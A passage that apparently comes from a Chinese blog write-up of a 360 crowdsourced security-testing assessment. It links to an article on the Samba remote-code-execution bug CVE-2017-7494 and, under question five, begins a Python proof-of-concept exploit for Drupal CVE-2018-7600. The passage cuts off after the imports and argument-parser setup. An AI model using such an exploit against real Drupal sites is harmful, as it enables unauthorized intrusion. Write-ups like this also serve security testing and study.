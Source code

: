 ![image-20200417164338990](/img/%E8%AE%B0%E4%B8%80%E6%AC%A1360%E4%BC%97%E6%B5%8B%E8%80%83%E6%A0%B8/image-20200417164338990.png)

Samba远程命令执行漏洞（CVE-2017-7494）：https://www.jianshu.com/p/24c7494971a8

##### 第五题

![image-20200415205625769](/img/%E8%AE%B0%E4%B8%80%E6%AC%A1360%E4%BC%97%E6%B5%8B%E8%80%83%E6%A0%B8/image-20200415205625769.png)

```
POC:
#!/usr/bin/env python3

import requests
import argparse
from bs4 import BeautifulSoup

def get_args():
  parser = argparse.ArgumentParser( prog="drupa7-CVE-2018-7600.py",
                    formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=50),
                    epilog= '''
                    This script will exploit the (CVE-2018-7600) vulnerability in Drupal 7 <= 7.57
                    by poisoning the recover password form (user/password) and triggering it with
                    the upload file via ajax (/file/ajax).
```